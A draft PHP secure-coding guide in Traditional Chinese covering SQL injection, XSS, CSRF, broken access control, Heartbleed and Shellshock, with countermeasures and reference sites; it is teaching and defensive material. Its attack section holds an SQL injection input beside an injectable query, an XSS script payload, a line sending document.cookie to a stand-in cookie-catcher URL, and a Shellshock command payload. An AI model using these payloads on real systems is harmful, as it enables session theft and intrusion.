



# PHP防禦性開發指南

本篇重點在PHP網路應用程式開發上

待補完

授權方式 [CC: BY-SA](https://creativecommons.org/licenses/by-sa/3.0/tw/legalcode) 

## 核心概念

*   最小權限原則
*   永遠不要信任使用者輸入
*   留心輸出
*   留意系統邊界
*   沒有打不穿的系統，只有做了多少準備

## 攻擊範例

**SQL Injection**

[](http://140.121.80.184/tmpPHP/20151215work5.php)[http://140.121.80.184/tmpPHP/20151215work5.php](http://140.121.80.184/tmpPHP/20151215work5.php)

       s2' AND 1=1 -- 

       $sql = "select * from userData where account='$_POST[$s_name]' and password=password('$_POST[$s_pw]')";

**XSS**

PHP這樣寫

```   
   <?php
   $name = $_GET['name'];
   echo "Welcome $name<br>";
   echo "<a href="[](http://xssattackexamples.com/)[http://xssattackexamples.com/](http://xssattackexamples.com/)">Click to Download</a>";
   ?>
```
但是...

       index.php?name=guest<script>alert('attacked')</script>

駭客這麼做

       document.location= "[](http://www.example.com/cookie_catcher.php?c=)[http://www.example.com/cookie_catcher.php?c=](http://www.example.com/cookie_catcher.php?c=)" + document.cookie

**CSRF**

著名範例：Microsoft MySpace worm

[](https://en.wikipedia.org/wiki/Samy_(computer_worm))[https://en.wikipedia.org/wiki/Samy_(computer_worm](https://en.wikipedia.org/wiki/Samy_(computer_worm))

[](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)[https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)

>   假如一家銀行用以執行轉帳操作的URL地址如下： [](http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName)[http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName](http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName)
<br>   那麼，一個惡意攻擊者可以在網站上放置如下代碼： 
<BR>   如果有賬戶名為Alice的用戶訪問了惡意站點，而她之前剛訪問過銀行不久，登錄信息尚未過期，那麼她就會損失1000資金。

**未經檢核的重新導向**

台泥跟goo.gl常被用來隱藏惡意程式位置

**權限控管系統的失敗**

提供API，卻沒有做好權限驗證，直接吐資料出來，或是該過期未過期的Token，或是可以被預測的產生法

[](http://www.freebuf.com/articles/92211.html)[http://www.freebuf.com/articles/92211.html](http://www.freebuf.com/articles/92211.html)

**該死的預設設定**



**函式庫弱點**

CVE-2014 HeartBleed

[](http://devco.re/blog/2014/04/09/openssl-heartbleed-CVE-2014-0160/)[http://devco.re/blog/2014/04/09/openssl-heartbleed-CVE-2014-0160/](http://devco.re/blog/2014/04/09/openssl-heartbleed-CVE-2014-0160/)

**語言弱點＆code Injection**

CVE-2014-6271 ShellShock



       () { :;}; /bin/bash -c "echo testing9123123"; /bin/uname -a

[](http://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/)[http://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/](http://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/)

## 應用程序安全風險評量



## 防衛重點模組

*   PHP程式
*   資料庫
*   Session & Cookie
*   使用者瀏覽器
*   檔案儲存區
*   架構與架構之間的夾縫

## 常見防禦方式

**對付SQL Injection**

SQL Inject的核心意義是：

對策：Prepared statement

[](http://php.net/manual/en/mysqli.quickstart.prepared-statements.php)[http://php.net/manual/en/mysqli.quickstart.prepared-statements.php](http://php.net/manual/en/mysqli.quickstart.prepared-statements.php)

```   
/* Prepared statement, stage 1: prepare */
   if (!($stmt = $mysqli->prepare("INSERT INTO test(id) VALUES (?)"))) {
       echo "Prepare failed: (" . $mysqli->errno . ") " . $mysqli->error;
   }
   /* Prepared statement, stage 2: bind and execute */
   $id = 1;
   if (!$stmt->bind_param("i", $id)) {
       echo "Binding parameters failed: (" . $stmt->errno . ") " . $stmt->error;
   }
   if (!$stmt->execute()) {
       echo "Execute failed: (" . $stmt->errno . ") " . $stmt->error;
   }
```

除了避免語句被竄改，也有加速執行重複語句的效果，因為先準備好了SQL語句編譯的部分

**對付CSRF**

對策：token

**XSS**

對策：字串過濾、Escape

[](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)[https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

**函式庫ㄖ**

[](http://blog.spoock.com/2016/06/25/weakly-typed-security/)http://blog.spoock.com/2016/06/25/weakly-typed-security/

**語言弱點、伺服器弱點**

對策：留意更新，上線前進行黑白箱測試

## 如何檢核

*   完善設計，重複檢核
*   Unit Test
*   弱點掃描
*   白箱測試
*   黑箱測試
*   隨時更新攻擊資訊

## 攻擊資訊參考

OWASP Top 10 [](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project)[https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project)

USCERT [](https://www.us-cert.gov/)[https://www.us-cert.gov/](https://www.us-cert.gov/)

TWCERT [](http://twcertcc.org.tw/)[http://twcertcc.org.tw/](http://twcertcc.org.tw/)

Security Focus [](http://www.securityfocus.com/)[http://www.securityfocus.com/](http://www.securityfocus.com/)

ExploitDB [](https://www.exploit-db.com/)[https://www.exploit-db.com/](https://www.exploit-db.com/)

DevCore [](http://devco.re/blog/)[http://devco.re/blog/](http://devco.re/blog/)

烏雲網 [](http://www.wooyun.org/)[http://www.wooyun.org/](http://www.wooyun.org/)

VulReport漏洞回報平台 [](https://vulreport.net/)[https://vulreport.net/](https://vulreport.net/)

Hitcon Zeroday 漏洞回報平台 [](https://zeroday.hitcon.org/)https://zeroday.hitcon.org/

各大廠商安全通報mail list (例如ubuntu [](https://lists.ubuntu.com/mailman/listinfo/ubuntu-security-announce)[https://lists.ubuntu.com/mailman/listinfo/ubuntu-security-announce](https://lists.ubuntu.com/mailman/listinfo/ubuntu-security-announce) )

Hacker Friendly [](http://hacker-friendly.com/)[http://hacker-friendly.com/](http://hacker-friendly.com/)

The Hacker News [](https://www.facebook.com/thehackernews/?fref=ts)[https://www.facebook.com/thehackernews/?fref=ts](https://www.facebook.com/thehackernews/?fref=ts)

## 參考資料